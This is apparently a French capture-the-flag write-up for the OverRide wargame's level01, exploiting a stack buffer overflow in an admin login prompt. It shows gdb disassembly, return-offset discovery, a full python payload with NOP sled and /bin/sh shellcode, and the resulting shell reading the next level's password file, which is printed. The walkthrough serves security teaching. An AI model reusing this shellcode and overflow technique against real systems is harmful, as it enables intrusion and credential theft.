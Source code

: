 # Level 01

Le programme demande d'entrer un nom d'utilisateur et un mot de passe (cf source).

Nous allons pouvoir ecrire dans la memoire car aucune verification de longueur de chaine est faite.

En effet, le nom d'utilisateur verifie la correspondance avec "dat_wil" seulement, mais nous pouvons ecrire davantage, et nous allons coller un nopsled + shellcode.

Ensuite lors du deuxieme prompt, nous pouvons ecraser l'adresse de retour, et pointer vers le buffer du 1er prompt.

Trouvons l'adresse sur gdb.
```
(gdb) disas main
Dump of assembler code for function main:
   0x080484d0 <+0>:     push   %ebp
   0x080484d1 <+1>:     mov    %esp,%ebp
   0x080484d3 <+3>:     push   %edi
   0x080484d4 <+4>:     push   %ebx
   0x080484d5 <+5>:     and    $0xfffffff0,%esp
   0x080484d8 <+8>:     sub    $0x60,%esp
   0x080484db <+11>:    lea    0x1c(%esp),%ebx
   0x080484df <+15>:    mov    $0x0,%eax
   0x080484e4 <+20>:    mov    $0x10,%edx
   0x080484e9 <+25>:    mov    %ebx,%edi
   0x080484eb <+27>:    mov    %edx,%ecx
   0x080484ed <+29>:    rep stos %eax,%es:(%edi)
   0x080484ef <+31>:    movl   $0x0,0x5c(%esp)
   0x080484f7 <+39>:    movl   $0x80486b8,(%esp)
   0x080484fe <+46>:    call   0x8048380 <puts@plt>
   0x08048503 <+51>:    mov    $0x80486df,%eax
   0x08048508 <+56>:    mov    %eax,(%esp)
   0x0804850b <+59>:    call   0x8048360 <printf@plt>
   0x08048510 <+64>:    mov    0x804a020,%eax
   0x08048515 <+69>:    mov    %eax,0x8(%esp)
   0x08048519 <+73>:    movl   $0x100,0x4(%esp)
   0x08048521 <+81>:    movl   $0x804a040,(%esp) <=== adresse du 1er buffer sur la pile.
   0x08048528 <+88>:    call   0x8048370 <fgets@plt>
   0x0804852d <+93>:    call   0x8048464 <verify_user_name>
   0x08048532 <+98>:    mov    %eax,0x5c(%esp)
   0x08048536 <+102>:   cmpl   $0x0,0x5c(%esp)
   0x0804853b <+107>:   je     0x8048550 <main+128>
```

Afin de trouver l'offset pour le ecrasement du pointeur de retour, j'utilise un string pattern.

```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

55555555 correspond a UUUU

Donc l'offset est de 84 - 4.

L'adresse de redirection sera : "\x60\xa0\x04\x08" pour sauter dans le nopsled.

Nous pouvons creer notre payload.

```
level01@OverRide:~$ python -c 'print("dat_wil" + "\x90" * 30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "A" * 80 + "\x60\xa0\x04\x08")' > /tmp/payload.txt
level01@OverRide:~$ cat /tmp/payload.txt - | /home/users/level01/level01

********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
